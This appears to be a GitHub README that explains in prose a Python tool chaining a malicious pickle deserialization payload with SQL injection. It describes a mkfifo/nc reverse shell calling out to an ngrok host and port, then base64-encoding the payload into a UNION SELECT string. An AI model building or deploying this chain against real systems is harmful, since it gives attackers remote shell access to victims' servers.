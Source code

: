 # reverse_shell_pickle
This reverse shell code was able to inject SQL allocated Pickle written in Python Code:
    The script imports necessary modules such as sys, base64, pickle, urllib.parse, and requests for various functionalities.
    Next, a class named Payload is defined. This class has a single method called __reduce__. In Python, the __reduce__ method is used by the pickle module for serialization and deserialization. In this case, the __reduce__ method is overridden to define a custom behaviour for serialization. Inside this method, an operating system command is constructed to establish a reverse shell connection.
    The command (cmd) used in this example uses the mkfifo command to create a named pipe, nc command to connect to a remote host (0.tcp.ap.ngrok.io) on a specific port (15792), and >/tmp/p | /bin/sh > /tmp/p 2>&1 to redirect the input/output to the named pipe and execute a shell command.
    The if __name__ == "__main__": condition ensures that the code block underneath is only executed if the script is being run directly (as opposed to being imported as a module).
    Within the if block, an instance of the Payload class is created and serialized using pickle.dumps(). The serialized payload is then base64-encoded to make it suitable for inclusion in a SQL query.
    The payload string is constructed by appending the serialized and encoded payload to a SQL injection payload. The SQL injection payload is formed by closing a single quotation mark ('), adding the UNION SELECT clause, and then injecting the payload.
    The payload string is further modified using requests.utils.requote_uri() to ensure proper URL encoding.
    Finally, the modified payload is printed to the console.

    
